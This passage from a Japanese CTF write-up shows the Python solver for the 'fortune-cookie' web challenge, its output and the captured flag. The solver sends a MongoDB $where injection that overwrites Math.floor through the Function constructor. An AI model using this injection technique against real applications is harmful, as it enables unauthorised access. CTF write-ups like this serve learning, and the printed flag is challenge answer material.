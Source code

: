 あとは、`Math.floor`の内容を書き換えるようにうまくPayloadを組めば完了です。

### Solver

最終的なSolverは、以下のようになりました。

```python
#!/usr/bin/env python3
import requests


"""
Constants
"""
URL = 'http://fortune-cookie.ctf.defenit.kr'
N = 588488491  # 共有環境で事故らないように十分に大きい値


"""
Exploit
"""
s = requests.Session()

payload = f"Math.floor = this.constructor.constructor('return {N}'); return 0"
s.post(f'{URL}/login', data={"username[$where]": payload})
s.get(f'{URL}/posts')

flag = s.get(f'{URL}/flag', params={'favoriteNumber': N}).text
print(f'{flag=}')
```

実行してみると、flagがゲットできました。

```txt
$ python3 solver.py
flag='Defenit{c0n9r47ula7i0n5_0n_y0u2_9o0d_f02tun3_haHa}'
```

### Flag

`Defenit{c0n9r47ula7i0n5_0n_y0u2_9o0d_f02tun3_haHa}`

## 感想(?)

楽しかった！
他に締め切りの近いタスクに追われていたのですが、「1問だけ...」とつい手を出してしまいました。
一問解いて終わって、しばらくしたらBabyJSのSolve数が伸びていたので、こちらもつい...。
他の問題にはまだ目を通せていませんが、ファイルは落としておいたので、優先すべきタスクを消化し次第やっていきます。(その前にWriteup見ちゃう気がするけど)
とりあえず、手を出したものはなんとか解けてよかったですね。

(ところで、何気にCTFのWriteupを公開するの初めてだな🤔最近サークルの後輩達がCTFのWriteupを書いているのを見て、影響されてます。)
